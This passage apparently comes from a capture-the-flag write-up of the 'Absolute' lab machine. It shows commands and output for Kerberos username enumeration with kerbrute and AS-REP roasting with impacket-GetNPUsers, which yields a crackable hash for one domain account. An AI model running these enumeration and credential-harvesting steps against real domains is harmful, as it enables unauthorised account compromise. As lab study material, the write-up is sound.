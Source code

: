 

```bash
❯ kerbrute userenum --dc 10.10.11.181 -d absolute.htb possible_users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/22/25 - Ronnie Flathers @ropnop

2025/01/22 02:04:47 >  Using KDC(s):
2025/01/22 02:04:47 >  	10.10.11.181:88

2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.roberts@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	m.chaffrey@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	s.osvald@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	d.klay@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.robinson@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	n.smith@absolute.htb
2025/01/22 02:04:47 >  Done! Tested 66 usernames (6 valid) in 0.411 seconds
```



```bash
❯ cat users.txt
2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.roberts@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	m.chaffrey@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	s.osvald@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	d.klay@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.robinson@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	n.smith@absolute.htb

❯ cat users.txt | awk '{print $NF}' | awk '{print $1}' FS='@' | sponge users.txt

❯ cat users.txt
j.roberts
m.chaffrey
s.osvald
d.klay
j.robinson
n.smith
```



```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt absolute.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:9f213736a22fc3887d77727ca9bf30a0$2de99f7f0b98034eb2d2d2b371e7c02595b340ed35e16cef2697bcd317bd2eb48e56eedce376f65dbad1d084d6c3dcbfaf071cb31aa70d35524656fb9c98588856593e6f071a0fbb6847251a24a33f993ca282b186b676f73ba735b1f54bd03fc109ece63641392e29075540c899bf8b4fb773946bb85df432f4473dffd13db0b38f576765e2320b26f7ef4577c2afa467033118075a753e51e1f8e736e58fc4f2066734014584b957631bec8751a4a4c71073009eb9b2c1744c93d644438e5d73c11cacbae2aca12fcd8330a18f0777b1b3cba8957c3092ccf4a2e220d90fcfe966693bec63facd8b3fbbd5
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```
